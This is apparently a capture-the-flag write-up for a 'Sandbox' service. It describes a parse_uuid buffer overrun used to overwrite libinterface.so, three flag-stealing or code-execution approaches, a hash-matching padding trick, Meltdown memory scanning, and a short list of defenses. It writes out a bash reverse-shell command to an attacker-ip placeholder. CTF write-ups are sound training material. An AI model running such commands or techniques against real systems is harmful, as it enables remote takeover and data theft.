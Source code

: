 # Sandbox

The service consists of a backend binary and two proxies that run in separate docker containers.

## How to attack

### First proxy (:16780)

There is a library, libinterface.so, that contains code responsible for interaction with the backend. All the following sploits show different ways to tamper with that library.

In order to do so you can exploit a buffer overrun in the parse_uuid function.

It allows you to overwrite fileno used when communicating with the backend and thus overwrite a 32-byte portion of libinterface.so on the victim system. 
By repeating this attack it is possible to overwrite the entire library.

See [upload_so.py](upload_so.py) for implementation.

#### Sploit #1

The easiest way to start getting flags is to change host:port used in the AddUnit function to the address of the attacker's machine.
This way the attacker will receive all the new flags, but the service will be down for the victim.

[Example code](fwd1/)


#### Sploit #2:

A more complicated approach would be to duplicate flags to the attackers machine, leaving the victim's service fully functional.

Also it's better to hook the GetUnit function instead of AddUnit, because it allows to access old flags as well.

The only problem is that the modified function must have the same byte-size as the original one, so some byte-juggling may be required to make it work.

[Example code](fwd2/)


#### Sploit #3:

The third and the most universal approach is to call system() on the victim machine.

In order to do so you have to do some calculations with addresses and produce a patch as described in [shell.asm](shell/shell.asm).

Then you may fire up a reverse shell, for example:  
`bash -c "bash -i >& /dev/tcp/<attacker-ip>/<attacker-port> 0>&1 &" &`

And then do what you wish. For example, upload another patched .so, without the limit on the size of functions.

#### Bonus (all sploits)

In order to allow the pwned service to restart correctly, you must pad your version of libinterface.so with some garbage so that it's hash matches the hash of the original file (it's a simple 4-byte xor).

### Second proxy (:16781)

The second proxy has no bugs (known to us).

Just hack the first proxy to gain a shell on the victim system and execute the Meltdown attack.   
You must scan the entire physical memory to find the flag storage and then read it all :)

## How to defend

1. Replace proxy #1 with proxy #2.
2. Turn off Meltdown support in kernel boot options.  


